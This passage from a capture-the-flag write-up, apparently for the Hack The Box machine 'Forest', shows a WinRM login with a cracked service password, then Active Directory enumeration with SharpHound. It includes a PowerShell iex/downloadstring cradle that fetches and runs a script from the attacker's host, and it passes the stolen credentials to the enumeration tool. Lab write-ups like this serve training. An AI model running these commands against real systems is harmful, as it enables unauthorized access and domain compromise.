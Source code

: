 I see the password is “s3rvice”.

### WinRM

I’ll give these credentials a try with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), and it works:

```

root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice
                                                         
Info: Starting Evil-WinRM shell v1.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>

```

From here I can grab `user.txt`:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt
e5e4e47a************************

```

## Privesc to Administrator

### Enumeration

#### SharpHound

With my shell, I’ll run [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors) to collect data for [BloodHound](https://github.com/BloodHoundAD/BloodHound). I’ve got a copy of Bloodhound on my machine (you can use `git clone https://github.com/BloodHoundAD/BloodHound.git` if you don’t). I’ll start a Python webserver in the `Ingestors` directory, and then load it in to my current session:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> iex(new-object net.webclient).downloadstring("http://10.10.14.6/SharpHound.ps1")

```

Now I’ll invoke it:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice

```

The result is a zip file:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> dir

    Directory: C:\Users\svc-alfresco\appdata\local\temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/18/2019   3:56 AM          12740 20191018035650_BloodHound.zip
-a----       10/18/2019   3:56 AM           8978 Rk9SRVNU.bin   

```
